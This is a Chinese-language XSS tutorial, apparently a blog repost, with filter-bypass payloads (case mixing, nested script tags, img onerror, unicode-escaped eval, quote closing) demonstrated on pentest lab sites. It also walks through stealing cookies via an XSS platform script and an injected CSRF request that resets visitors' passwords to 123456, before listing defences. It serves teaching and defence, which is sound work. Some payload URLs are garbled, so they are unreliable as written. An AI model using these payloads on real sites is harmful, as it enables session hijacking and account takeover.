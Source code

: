 # 浅谈XSS攻击的那些事（附常用绕过姿势）

[一叶知安征稿](https://zhuanlan.zhihu.com/p/26012925)



## **前言**

随着互联网的不断发展，web应用的互动性也越来越强。但正如一个硬币会有两面一样，在用户体验提升的同时安全风险也会跟着有所增加。今天，我们就来讲一讲web渗透中常见的一种攻击方式：**XSS攻击**。

## **什么是XSS攻击**

先上一段标准解释（摘自百度百科）。

> “XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。”

相信以上的解释也不难理解，但为了再具体些，这里举一个简单的例子，就是留言板。我们知道留言板通常的任务就是把用户留言的内容展示出来。正常情况下，用户的留言都是正常的语言文字，留言板显示的内容也就没毛病。然而这个时候如果有人不按套路出牌，在留言内容中丢进去一行

```text
<script>alert(“hey!you are attacked”)</script>
```

那么留言板界面的网页代码就会变成形如以下：

```text
<html>
    <head>
       <title>留言板</title>
    </head>
<body>
<div id=”board” 
        <script>alert(“hey!you are attacked”)</script>
</div>     
    </body>
</html>
```

那么这个时候问题就来了，当浏览器解析到用户输入的代码那一行时会发生什么呢？答案很显然，浏览器并不知道这些代码改变了原本程序的意图，会照做弹出一个信息框。就像这样。

![img](media/003-XSS攻击/v2-04568c5ada0bbad5aa6da19c453e4bfb_1440w.png)



## **XSS的危害**

其实归根结底，XSS的攻击方式就是想办法“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码。

可问题在于尽管一个信息框突然弹出来并不怎么友好，但也不至于会造成什么真实伤害啊。的确如此，但要说明的是，这里拿信息框说事仅仅是为了举个栗子，真正的黑客攻击在XSS中除非恶作剧，不然是不会在恶意植入代码中写上alert（“say something”）的。

在真正的应用中，XSS攻击可以干的事情还有很多，这里举两个例子。

- **窃取网页浏览中的cookie值**



在网页浏览中我们常常涉及到用户登录，登录完毕之后服务端会返回一个cookie值。这个cookie值相当于一个令牌，拿着这张令牌就等同于证明了你是某个用户。

如果你的cookie值被窃取，那么攻击者很可能能够直接利用你的这张令牌不用密码就登录你的账户。如果想要通过script脚本获得当前页面的cookie值，通常会用到document.cookie。

试想下如果像空间说说中能够写入xss攻击语句，那岂不是看了你说说的人的号你都可以登录（不过某些厂商的cookie有其他验证措施如：Http-Only保证同一cookie不能被滥用）



- **劫持流量实现恶意跳转**



这个很简单，就是在网页中想办法插入一句像这样的语句：

```js
<script>window.location.href="http://www.baidu.com";</script>
```

那么所访问的网站就会被跳转到百度的首页。

早在2011年新浪就曾爆出过严重的xss漏洞，导致大量用户自动关注某个微博号并自动转发某条微博。具体各位可以自行百度。

## **利用与绕过**

那xss漏洞很容易被利用吗？那倒也未必。

毕竟在实际应用中web程序往往会通过一些过滤规则来组织代有恶意代码的用户输入被显示。

不过，这里还是可以给大家总结一些常用的xss攻击绕过过滤的一些方法，算是抛砖引玉。（以下的绕过方式皆通过渗透测试平台Web For Pentester 演示）

- **大小写绕过**



这个绕过方式的出现是因为网站仅仅只过滤了<script>标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。具体的方式就像这样：

![img](media/003-XSS攻击/v2-9a0548e4159948c4ad63f78101eb9f81_1440w.png)

利用语句：

> [http://192.168.1.102/xss/example2.php?name=alert("hey!")](https://link.zhihu.com/?target=http%3A//192.168.1.102/xss/example2.php%3Fname%3D%3CsCript%3Ealert(%22hey!%22)%3C/scRipt%3E)

- **利用过滤后返回语句再次构成攻击语句来绕过**



这个字面上不是很好理解，用实例来说。

如下图，在这个例子中我们直接敲入script标签发现返回的网页代码中script标签被去除了，但其余的内容并没有改变。

![img](media/003-XSS攻击/v2-d97b7b91bc2c099bf470f0f8c9b0e347_1440w.png)

于是我们就可以人为的制造一种巧合，让过滤完script标签后的语句中还有script标签（毕竟alert函数还在），像这样：

> [http://192.168.1.102/xss/example3.php?name=pt>alert("hey!")pt>](https://link.zhihu.com/?target=http%3A//192.168.1.102/xss/example2.php%3Fname%3D%3CsCript%3Ealert(%22hey!%22)%3C/scRipt%3E)

发现问题了吧，这个利用原理在于只过滤了一个script标签。

- **并不是只有script标签才可以插入代码**



在这个例子中，我们尝试了前面两种方法都没能成功，原因在于script标签已经被完全过滤，但不要方，能植入脚本代码的不止script标签。

例如这里我们用<img>标签做一个示范。

我们利用如下方式：

> [http://192.168.1.102/xss/example4.php?name=
> src='w.123' onerror='alert("hey!")'>

就可以再次愉快的弹窗。原因很简单，我们指定的图片地址根本不存在也就是一定会发生错误，这时候onerror里面的代码自然就得到了执行。

以下列举几个常用的可插入代码的标签。

```text
<a onmousemove=’do something here’> 
```

当用户鼠标移动时即可运行代码

```text
<div onmouseover=‘do something here’> 
```

当用户鼠标在这个块上面时即可运行（可以配合weight等参数将div覆盖页面，鼠标不划过都不行）

类似的还有onclick，这个要点击后才能运行代码，条件相对苛刻，就不再详述。

- **编码脚本代码绕过关键字过滤**



有的时候，服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入，不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行，简直太贴心了。

例如alert(1)编码过后就是

```text
\u0061\u006c\u0065\u0072\u0074(1)
```

所以构建出来的攻击语句如下：

> [http://192.168.1.102/xss/example5.php?name=eval(\u0061\u006c\u0065\u0072\u0074(1))](https://link.zhihu.com/?target=http%3A//192.168.1.102/xss/example5.php%3Fname%3D%3Cscript%3Eeval(/u0061/u006c/u0065/u0072/u0074(1))%3C/script%3E)

- **主动闭合标签实现注入代码**



来看这份代码：

![img](media/003-XSS攻击/v2-bd658f0c6d2ca1b83725daaf19af188b_1440w.png)



乍一看，哇！自带script标签。再一看，WTF！填入的内容被放在了变量里！

这个时候就要我们手动闭合掉两个双引号来实现攻击，别忘了，javascript是一个弱类型的编程语言，变量的类型往往并没有明确定义。

思路有了，接下来要做的就简单了，利用语句如下：

> [http://192.168.1.102/xss/example6.php?name=](https://link.zhihu.com/?target=http%3A//192.168.1.102/xss/example6.php%3Fname%3D)";alert("I am
> coming again~");"

效果如图。



![img](media/003-XSS攻击/v2-ab786121fff07ecf1fe4aa598469c18b_1440w.png)

回看以下注入完代码的网页代码，发现我们一直都在制造巧合。。

![img](media/003-XSS攻击/v2-ebb86b7d306aee189426aa40a242b94b_1440w.png)

先是闭合引号，然后分号换行，加入代码，再闭合一个引号，搞定！

- **组合各种方式**



在实际运用中漏洞的利用可能不会这么直观，需要我们不断的尝试，甚至组合各种绕过方式来达到目的。

介绍完一些常用的绕过方式，再倒回来讲一下XSS分类，因为下面讲具体的应用时会用到。

**XSS攻击大致上分为两类：**

> 一类是反射型XSS，又称非持久型XSS，
> 一类是储存型XSS，也就是持久型XSS。

## **什么是反射型XSS**

其实，我们上面讲XSS的利用手段时所举的例子都是非持久型XSS。

也就是攻击相对于访问者而言是一次性的，具体表现在我们把我们的恶意脚本通过url的方式传递给了服务器，而服务器则只是不加处理的把脚本“反射”回访问者的浏览器而使访问者的浏览器执行相应的脚本。

也就是说想要触发漏洞，需要访问特定的链接才能够实现。

## **什么是储存型XSS**

它与反射型XSS最大的不同就是服务器再接收到我们的恶意脚本时会将其做一些处理。

例如储存到数据库中，然后当我们再次访问相同页面时，将恶意脚本从数据库中取出并返回给浏览器执行。这就意味着只要访问了这个页面的访客，都有可能会执行这段恶意脚本，因此储存型XSS的危害会更大。

还记得在文章开头提到的留言板的例子吗？那通常就是储存型XSS。当有人在留言内容中插入恶意脚本时，由于服务器要像每一个访客展示之前的留言内容，所以后面的访客自然会接收到之前留言中的恶意脚本而不幸躺枪。

这个过程一般而言只要用户访问这个界面就行了，不像反射型XSS，需要访问特定的URL。

## **实例应用**

**1、劫持访问**

劫持访问就是在恶意脚本中插入诸如的代码，那么页面就会跳转到百度首页。

劫持访问在持久型和非持久型XSS中都比较常被利用。持久型XSS中劫持访问的危害不用说大家都清楚，但有人会问非持久型XSS中劫持访问有什么作用呢？

很简单，试想下像[http://qq.com](https://link.zhihu.com/?target=http%3A//qq.com)，[http://baidu.com](https://link.zhihu.com/?target=http%3A//baidu.com)这样的域名下出现非持久型XSS，那么在发送钓鱼链接时就可以通过[http://qq.com](https://link.zhihu.com/?target=http%3A//qq.com)等域名进行跳转，一般人一看到[http://qq.com](https://link.zhihu.com/?target=http%3A//qq.com)之类的域名警惕性会下降，也就更容易上当了。

**2、盗用cookie实现无密码登录**

具体原理上文已经提到，这里做一个具体演示。由于盗取的cookie需要传回给攻击者，因此往往需要一个服务器来接收盗取的cookie，这也就是xss平台的作用了。网上的xss平台很多，但动手搭建一个也不难，建议有条件的自己搭建。

首先登录平台后台获取到js脚本地址为[http://127.0.0.1/XSS/template/default.js](https://link.zhihu.com/?target=http%3A//127.0.0.1/XSS/template/default.js)，所以我们需要做的是把这段代码植入指定页面。

（这里以DVWA渗透测试平台为例）

![img](media/003-XSS攻击/v2-5c4b2d81d65131143288cb8bd4ee4f47_1440w.png)



我们发现网页对于message长度有限制。审查元素看一下。

![img](media/003-XSS攻击/v2-2213192af63902a554ecaabc7e4ea5f8_1440w.png)

发现最大长度有限制，但这仅仅是前端的限制，直接双击修改成更大的数字即可。再次尝试，没问题，我们已经将脚本植入完毕。

![img](media/003-XSS攻击/v2-cb775c6e798386d8e3c8c148e4bf068c_1440w.png)

然后就是坐等别的用户访问这个界面。

这时，另一个用户gordonb登录并访问了留言界面，那么他的cookie就会被窃取。我们可以从xss平台的后台获取到。

![img](media/003-XSS攻击/v2-9f97f1bc1988aad16623812911857ee0_1440w.png)

拿到cookie之后要登录他的帐号就好办了。

打开登录界面，调出火狐的firebug插件，调至cookie选项卡（注意，如果你的firebug插件没有cookie选项卡，请再安装firecookie插件即可看到）

然后依次点击cookies-create cookie，随后再弹出的界面中填入两个xss平台获取到的cookie，如图



![img](media/003-XSS攻击/v2-4b8ecbe821ce90a64beaf8bb7cc3d540_1440w.png)

这里注意要把我箭头所指的地方勾上，这是设置cookie有效期的地方，不然会在设置完下一秒cookie就失效。

![img](media/003-XSS攻击/v2-d7acb8cd0d72f978f293035f92b783bb_1440w.png)

完成之后再次刷新页面，发现已经不是之前的登录界面了，而是登录后的界面。至此，一个从cookie窃取到利用的过程就已完成。

![img](media/003-XSS攻击/v2-04f7ce7ad12503a68cbe5e3980653811_1440w.png)



**3、配合csrf攻击完成恶意请求**

先简单解释以下csrf攻击。Csrf攻击就是在未经你许可的情况下用你的名义发送恶意请求（比如修改密码，银行转账等），下面演示一个用xss配合csrf修改用户密码的例子。

首先对修改用户密码的界面进行抓包。

![img](media/003-XSS攻击/v2-2eec0b1d53fc73e6e9b832725296bc9c_1440w.png)



发现没有对原密码进行校验。于是一股邪恶的力量油然而生：要是在xss的恶意脚本中自动提交get请求修改密码的话。。

说干就干，具体插入语句如下:

```js
<script type="text/javascript" src="http://127.0.0.1/test/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#"></script>
```

有人会问，这不是引用脚本吗?其实不然，本质上这还是发起了一起get请求，因此可以直接使用。与上例一样，插入到message中，再坐等上钩。等下一个用户访问该界面时，密码就会被改为123456了。

我们再看下访问该页面时的抓包情况，发现每次访问该页面都发送了更改密码的请求

![img](media/003-XSS攻击/v2-0b5e75bf83e95fe3345229386a1f9490_1440w.png)



效果看数据库（密码md5加密）

![img](media/003-XSS攻击/v2-20b6a4e184e0f1e63a5db4fef90313ba_1440w.png)

访问了该页面的用户密码都被更改了。

## **防范手段**

都说知己知彼方能百战不殆，知道了xss攻击的原理那么防御的方法也就显而易见了。

- 首先是过滤。对诸如<script>、<img>、<a>等标签进行过滤。
- 其次是编码。像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。
- 最后是限制。通过以上的案例我们不难发现xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

**后话**

安全攻防双方的博弈永远都不会停止，也正是这种博弈推进了信息安全的发展。究竟是道高一尺还是魔高一丈很难定论。其实安全问题归根结底还是一个信任的前提。什么输入值得信任？什么输入不值得信任需要特殊处理是安全人员常常要思考的一个问题。

（以上内容如有错误之处，敬请指正，谢谢！）